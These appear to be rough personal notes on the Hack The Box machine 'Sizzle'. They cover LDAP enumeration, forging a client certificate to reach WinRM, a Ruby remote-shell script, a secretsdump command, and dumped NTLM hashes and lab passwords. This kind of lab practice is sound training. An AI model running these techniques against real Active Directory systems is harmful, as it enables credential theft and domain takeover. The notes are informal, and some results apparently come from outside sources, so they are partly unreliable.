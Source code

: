 
What can we do with a user name and password
```
prompt off
recurse on
ls
mget *
```
![[Pasted image 20240408013556.png]]

I don't know what's the certificate for now and whether we should generate it or not but will try to do secrets dump and ldapdump 1st.

```
ldapdomaindump ldaps://10.10.10.103 -u 'HTB\Amanda' -p 'Ashare1972'
```
![[Pasted image 20240408014627.png]]

Will run bloodhound on this tomorrow.

It seems like we have to do something with the certificate i guess. Like make a certificate for Amanda.

![[Pasted image 20240408131444.png]]

Will select advanced certificate request as User certificate throughs error at us.
![[Pasted image 20240408131533.png]]

But it's working cause we have to give some kind of output here like a key or something. So will go back to out Nmap result.

```
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2023-11-19T17:59:11+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, 
```

We know that port 5985 and 5986 both are used for winrm and one supports Http and another supports https.
As port 5985 is not working so we need to use port 5986 and for that reason we need certificate.

We will generate a certificate request and a private key : 
```
openssl genrsa -aes256 -out amanda.key 2048
```
![[Pasted image 20240408141724.png]]

```
openssl req -new -key amanda.key -out amanda.csr
```
![[Pasted image 20240408141959.png]]

```
-----BEGIN CERTIFICATE REQUEST-----
MIICijCCAXICAQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUx
ITAfBgNVBAoMGEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDCCASIwDQYJKoZIhvcN
AQEBBQADggEPADCCAQoCggEBAOUU4FjaASHFdmW/JmOqd0TKz61skZ56LJZf9PHM
EK2TuxeqY6/MGpcX/Wv5CNo3R9ab+QnUBCtjloQeUAhMeWwkBt3dam/bU36XSu9Z
ZXgGAq8QsWfprQhvdBtof4B4bRqZKybjIx1ks2ke7DC0BceIpcaWY7hI8eoIWbp7
yEJORqdSxKwvEhdKxywapn8N2sUqlFHw4VBU8sEuB8K7zwhTPkB9AJqSFEIx2Tcb
ZgFRrsUVIP6ThLhyBDn+sGfyhEufyOdl9yWxn4c8ncbioT3lw3DytDwHI6viA+mD
hPaBKLcbBC1A9fHTxp6OvHjvE/GmEyuhORW1MvhMMzDgBZMCAwEAAaAAMA0GCSqG
SIb3DQEBCwUAA4IBAQAg1ad9YxAtYsPwmy+ByQP1YkmVgHytK0m6fZ6Ss0PSfH7z
3UIqNDHqvDUPLHst9jbUApleuWmQWiaT+gbyoNYvubwZTRuSzWwqYMFVuRYLnvgI
oaYVAdxVUvewYGua1G7WRS+8volFRSTlReHktHb3XNnIIaXzPHDNFbA1HaARmY4x
Tx9FNfpglelmfpWMtDJvlfVUzUBUrIVeyR1PIG025x+zgBDROKHuq/2vBPpsQvCl
4ddWWGQ/AQmB5IPYHaGe62OJBh130GdLr0jbtn+RhSWiEpGLvq+HUVSw8qoePusY
W4zcIb4cjyDyaPu9sfK2e7ed6Zx/GF8a0SR4cpL2
-----END CERTIFICATE REQUEST-----
```

What i was doing wrong is that i was entering the wrong key we have to copy the .csr
![[Pasted image 20240408142323.png]]

How we have the key and will simply use a script winrm as you know that we can't connect to it through linux but luckily we have a Ruby library and will use it.

We install 
```
gem install winrm
``` 

Now we are getting this error
![[Pasted image 20240408170210.png]]

![[Pasted image 20240408181853.png]]

What i was doing wrong is that i was giving the wring certnew.cer (i.e the one we have downloaded). Authenticate through SSL using ruby (i.e. winrm)
```
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new(
  endpoint: 'https://10.10.10.103:5986/wsman',
  transport: :ssl,
  client_cert: 'certnew.cer',
  client_key: 'amanda.key',
  key_pass: 'testing',
  :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end
    puts "Exiting with code #{output.exitcode}"
end
```


```
ruby psremote.rb
```
![[Pasted image 20240408221759.png]]


Ldap
```
ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'
```

We are getting a lot of data so will run a ldap query to get only the admin account even though we know about that from the ldap dump

```
ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 
```
![[Pasted image 20240410154311.png]]

What is the next go to step is to simply see if we can download the SAM SYSTEM and Security file to dump the hashes locally but i haven no idea how to do that.

But while doing the OSINT i found the hashes of all the users in a file.txt file
```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c718f548c75062ada93250db208d3178:::

Domain    User  ID  Hash
------    ----  --  ----
HTB.LOCAL Guest 501 -   
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrb3n:1105:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
```

Got the password of Administrator
```
Pass123!
```
![[Pasted image 20240410165928.png]]

```
mrb3n
```


Got the SMB aka valid users even though administrator and mrb3bn password didn't worked.
```
mrlky
```

```
Football#7
```

What i learnt from it is the repeat the process like run the secretdump.py again as it gave error in the amanda time but worked for mrlky. So keep in mind to repeat the process for each user cuz you never knew what you will get.

```
secretsdump.py Sizzle.HTB.local/mrlky:Football#7@10.10.10.103
```

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:296ec447eee58283143efbd5d39408c8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
amanda:1104:aad3b435b51404eeaad3b435b51404ee:7d0516ea4b6ed084f3fdf71c47d9beb3:::
mrlky:1603:aad3b435b51404eeaad3b435b51404ee:bceef4f6fe9c026d1d8dec8dce48adef:::
sizzler:1604:aad3b435b51404eeaad3b435b51404ee:d79f820afad0cbc828d79e16a6f890de:::
SIZZLE$:1001:aad3b435b51404eeaad3b435b51404ee:19ed5345c5594385f12a292d26cd5206:::
```

Will enumerate know on post enumeration attacks as we have got the valid user names.


